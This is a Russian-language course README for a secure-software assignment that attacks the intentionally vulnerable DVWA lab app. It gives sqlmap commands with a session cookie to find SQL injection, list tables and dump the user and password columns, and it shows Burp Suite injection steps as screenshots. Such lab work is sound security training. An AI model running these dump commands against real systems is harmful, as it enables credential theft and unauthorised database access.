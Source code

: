 # Secure_software_4
Task 1, 2, 3: first_task.php, second_task.php, third_task.php + .png файлы
# Task 4: SqlMap
### Вводим команду для поиска SQL-инъекций
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -p 'id' --dbms='mysql' --level=3
```
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/abd54d82-83d7-476f-bd7c-03b33e578e8d)

### Таблицы в базе данных dvwa
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa --tables
```
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/a2b72c1f-8ed7-4770-8984-d200e21e313b)

### Поля таблицы users
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa -T users –column
```
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/fad2c3cf-b383-44c1-86db-96e76ac4df95)

### Cодержимое таблицы через флаг dump
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa -T users -C user,password --dump
```
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/9543ab9c-5c18-4507-b8d8-a74952e9207a)
# Task 5: Burp
### Откроем Burp Suite. Необходимо настроить прокси в браузере через Burp
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/0af76902-84a4-4fb1-b953-7251cc7dc038)
### После входа на сайт можно переходить в Burp во вкладку proxy
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/0aa12ab4-37c3-4861-886e-63a5dc804a01)
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/3e8b1d93-d226-40c2-b865-f019b48ec1ee)
### Заменяем вставляемое значение на значение популярных SQL-инъекций. Результатом будет список отправленный инъекций на сервер
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/41c494fb-b09e-4176-b3fc-9a3c653bb106)
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/2b4e5a1d-933b-48c8-92ae-472f233a3ee7)
### Попрбуем использовать ниъекцию с самой большой длиной
![image](https://github.com/keenetic29/Secure_software_4/assets/122115141/b27f1564-71cc-4425-9801-bf7bbbba1453)

